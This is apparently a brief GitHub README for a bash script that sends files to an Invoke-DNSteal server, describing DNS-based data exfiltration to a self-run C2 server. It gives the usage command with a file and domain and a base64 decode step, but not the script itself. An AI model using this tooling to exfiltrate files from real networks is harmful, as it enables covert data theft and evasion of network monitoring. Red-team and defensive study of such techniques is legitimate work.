

# sendFileInvokeDNSteal
Bash script for sending file to Invoke-DNSteal server

# Instructions:
1. Run Invoke-DNSteal.py from https://github.com/JoelGMSec/Invoke-DNSteal in your DNS server
2. Use:
```
./sendFileInvokeDNSteal.sh <file> <domain>
```
3. Decode the received file in base64
```
base64 -d <received_file>
```

Example: Sending byp4xx.py to my own customized C2/DNS server (https://github.com/lobuhi/byp4xx/blob/main/byp4xx.py)

